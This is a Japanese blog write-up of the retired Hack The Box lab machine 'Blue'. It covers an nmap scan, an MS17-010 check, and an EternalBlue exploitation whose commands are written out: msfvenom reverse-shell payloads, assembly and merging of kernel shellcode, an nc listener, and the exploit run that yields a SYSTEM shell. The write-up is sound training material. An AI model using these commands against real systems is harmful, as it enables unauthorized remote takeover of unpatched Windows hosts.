

「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「Blue」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [エクスプロイト](#エクスプロイト)


## 探索

まずはいつも通りクイックスキャンをかけていきます。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.40  targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-07-27T11:37:27
|_  start_date: 2022-07-27T11:34:22
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-27T12:37:26+01:00
|_clock-skew: mean: -19m57s, deviation: 34m36s, median: 1s
```

WindowsのRemote Procedure Call関連のポートがいくつか空いているようです。

`Windows 7 Professional 7601 Service Pack 1`のプラットフォームでSMBのポートが開いているのでEternalBlueが刺さりそうです。

## エクスプロイト

[GitHub - worawit/MS17-010: MS17-010](https://github.com/worawit/MS17-010)より取得した`checker.py`を使ってみたところ、どのパイプ名も使用できないようでした。

``` bash
$ python eternalchecker.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

同じくここで取得した`eternalblue_exploit7.py`に作成したペイロードを与えて実行したものの、シェルの取得にはいたりませんでした。

``` bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 > shellcode
$ python exploit.py 10.10.10.40 shellcode 
shellcode size: 324
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

パイプの名前が見つからなさそうなので、他のエクスプロイトを探索します。

``` bash
$ searchsploit eternal
----------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                           |  Path
----------------------------------------------------------------------------------------- ---------------------------------
Eternal Lines Web Server 1.0 - Remote Denial of Service                                  | multiple/dos/25075.pl
EternalMart Guestbook 1.10 - '/admin/auth.php' Remote File Inclusion                     | php/webapps/2980.txt
EternalMart Mailing List Manager 1.32 - Remote File Inclusion                            | php/webapps/23218.txt
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code  | windows/remote/43970.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)         | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Executio | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-01 | windows_x86-64/remote/42030.py
----------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

そこで、`MS17-010/eternalblue_exploit7.py`を使っていくことにしました。

``` bash
git clone https://github.com/worawit/MS17-010

nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=10.10.14.2 --platform windows -a x64 --format raw -o sc_x64_payload.bin
cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin

nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=10.10.14.2 --platform windows -a x86 --format raw -o sc_x86_payload.bin
cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin

python2.7 MS17-010/shellcode/eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin

ifconfig tun0 mtu 1400
sudo nc -nlvp 443
python MS17-010/eternalblue_exploit7.py 10.10.10.40 sc_all.bin
```

実際のエクスプロイト手順は以下を参考にしました。

何故かペイロードのポートを4444にしたらうまくシェルが取れませんでしたが、443にしたらうまくいきました（なぜ？）

参考：[MS17-010 EternalBlue Manual Exploitation | root4loot](https://root4loot.com/post/eternalblue_manual_exploit/)



とりあえずSystem権限でとれたのでフィニッシュ。


